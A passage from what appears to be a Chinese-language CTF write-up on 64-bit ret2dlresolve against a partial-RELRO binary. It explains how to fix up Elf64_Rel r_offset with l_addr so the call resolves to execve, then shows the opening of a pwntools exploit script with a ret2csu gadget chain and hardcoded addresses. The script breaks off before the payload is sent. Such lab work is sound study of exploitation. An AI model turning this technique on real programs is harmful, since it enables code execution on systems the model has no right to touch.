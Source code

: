 ![main_partial_relro_64_2.png](./image/main_partial_relro_64_2.png)

我们发现一共给`r12`进行两次操作，第一次将`rsi`指向的值赋值给`r12`，此时`r12`的值为`write@got`的地址
但是紧接着又给`r12`加上了`rax`，`rax`的值恰好是我们计算的`l_addr`，于是最终`r12`指向了一个未知的地方
我们这里重新修正`r12`的值，我们不能修改`l_addr`，但是我们可以修改`Elf64_Rel->r_offset`，使`Elf64_Rel->r_offset` + `l_addr` = `write@got`的地址
最终payload如下:

```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
p   = process('./main_partial_relro_64')
elf = ELF('./main_partial_relro_64')
libc= ELF('/lib/x86_64-linux-gnu/libc.so.6')

def csu(fun, edi, rsi, rdx):
    payload = b''
    payload += p64(csu_part2)
    payload += p64(0)    # add rsp, 8
    payload += p64(0)    # pop rbx
    payload += p64(1)    # pop rbp
    payload += p64(fun)    # pop r12
    payload += p64(edi)    # pop r13
    payload += p64(rsi)    # pop r14
    payload += p64(rdx)    # pop r15
    payload += p64(csu_part1)
    payload += p64(0) * 7
    return payload

dl          = 0x400506
DT_STRTAB   = 0x600EA0
csu_part1    = 0x400780
csu_part2    = 0x400796
bss_addr    = elf.bss() + 0x30
read_got    = elf.got['read']
write_got   = elf.got['write']
vuln_addr    = elf.symbols['vuln']
offset        = libc.symbols['execve'] - libc.symbols['write']
l_addr      = offset
```